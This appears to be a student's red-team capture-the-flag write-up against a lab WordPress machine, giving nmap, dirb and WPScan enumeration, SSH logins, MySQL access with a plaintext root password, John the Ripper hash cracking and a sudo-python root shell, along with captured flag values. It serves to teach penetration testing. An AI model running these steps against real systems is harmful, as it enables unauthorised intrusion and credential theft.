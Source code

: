 ﻿Joaquin Serrano

# Red Team: Summary of Operations

### Table of Contents:
   * Exposed Services
   * Critical Vulnerabilities
   * Exploitation

### Exposed Services:
- Kali Linux Command:
   Ping Scan only 
   $ nmap -sP 192.168.1.0/24
![](https://github.com/y2keno/final_project/blob/30062c908e5644872dddccd38346283d0b5f18b4/Final_Red_Team/images/image7.png)
 
Nmap scan results for each machine reveal the below services and OS details:

- Kali Linux Command: 
   Find the version of the service running on port 192.168.1.110:
   $ nmap -sV 192.168.1.110
![](https://github.com/y2keno/final_project/blob/df913b8917446432e94c1c6375b6100aa8389038/Final_Red_Team/images/image8.png)

### This scan identifies the services below as potential points of entry:

- Target 1 -Michael
   * Port 22/TCP Open SSH
   * Port 80/TCP Open HTTP
   * Port 111/TCP Open rcpbind
   * Port 139/TCP Open netbios-ssn
   * Port 445/TCP Open netbios-ssn

### Critical Vulnerabilities: 
The following vulnerabilities were identified on each target:

- Target 1 -Michael
   * Unsalted User Password Hash (WordPress Database)
   * Misconfiguration of User Privileges/Privilege Escalation
   * Weak User Password
   * User Enumeration (WordPress site)

### Exploit Used
   * dirb returns the enumerated directories found within the target URL

![](https://github.com/y2keno/final_project/blob/2b18992a598038337b3eea06eb8e762ca11ae9a6/Final_Red_Team/images/image1.png)
![](https://github.com/y2keno/final_project/blob/9daf1cc299e38973b8392e18e94f21011da9d766/Final_Red_Team/images/image10.png)

- The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
![](https://github.com/y2keno/final_project/blob/dbc3bb6c5a0d8ced95df9e13162e2d82bcd9a675/Final_Red_Team/images/image22.png)

- Target 1
- flag1.txt: b9bbcb33e11b80be759c4e844


### Exploit Used
- WPScan to enumerate users of the Target 1 WordPress site
   - SSH using Michael’s credentials, Flag 1 was found
   - Flag 1 was found in /var/www in the HTML folder

- Kali Linux Command: 
   $ wpscan -u http://192.168.1.110/wordpress -eu 
![](https://github.com/y2keno/final_project/blob/f2315f50a2a9bd73db6ce996acaf697740dae695/Final_Red_Team/images/image2.png)
![](https://github.com/y2keno/final_project/blob/eeff044c9c10ecd69f6574bca247e958df05c134/Final_Red_Team/images/image16.png)
![](https://github.com/y2keno/final_project/blob/638eec6e538de727c61a25a0b6898746f70bac65/Final_Red_Team/images/image17.png)

- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c


### Exploit used:
   * Continuation of exploit from Target 1. 
   * SSH using Michael’s credentials, Flag 2 was found. 
   * Flag 2 was found in /var/www next to the HTML folder that held Flag 1. 

- Kali Linux Commands: 
   * $ ssh michael@192.168.1.110
   * pwd
   * cd var/www
   * ls -l
   * cat flag2.txt

![](https://github.com/y2keno/final_project/blob/3ffd601fef819d7e5dce7e0f70b736d1a4ba00e1/Final_Red_Team/images/image12.png)
  
- Flag 3: afc01ab56b50591e7dccf93122770cd2

### Exploit used: 
   * Continuation of Exploit from Target 1. 

- Capturing Flag 3: 
   * Gaining My SQL database access
   * Flag 3 was found in wp_posts table in the WordPress database

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image15.png)  

- Kali Linux Command: 
   - $ mysql -u root -p
   - Password: R@v3nSecurity  Host: 127.0.0.1
   - Or $ mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1 
   - show databases;
   - use wordpress; 
   - show tables;
   - Select * from wp_users; 

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image4.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image14.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image21.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image3.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image12.png)

### Exploit used:
   - Unsalted password hash and privilege escalation with Python
   - Capturing flag 4: Secure user credentials from database, utilize John the Ripper to crack hash and use python to gain root privileges. 
   - Utilizing the info from capturing flag 3. The Select * from wp_users command will reveal the username and password hashes for Michael and Steven utilizing MySQL.
   - Copied the username and password hash for Steven. Saved the file and named it  hash.txt

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image13.png)

- Kali Linux Commands: 
   * mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1
   * show databases; 
   * use wordpress;
   * show tables; 
   * select * from wp_users;

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image3.png)

### Exploit Used: 
- Utilized John the Ripper to crack the password hash from the hash.txt file.
- Kali Linux command: 
   * $ john hash

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image19.png)
  
* Steven Password cracked: pink84

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image6.png)
  
   * SSH using Steven’s credentials, Flag 4 was found.
   * ssh steven@192.168.1.110 
   * pw:pink84
   * sudo -l
   * sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image9.png)
  
* Use python to gain root privileges

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image20.png)
  
   * cd root
   * ls
   * cat flag4.txt

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image18.png)

### Captured Flag 4: 715dea6c055b9fe33354932f2941ce ;D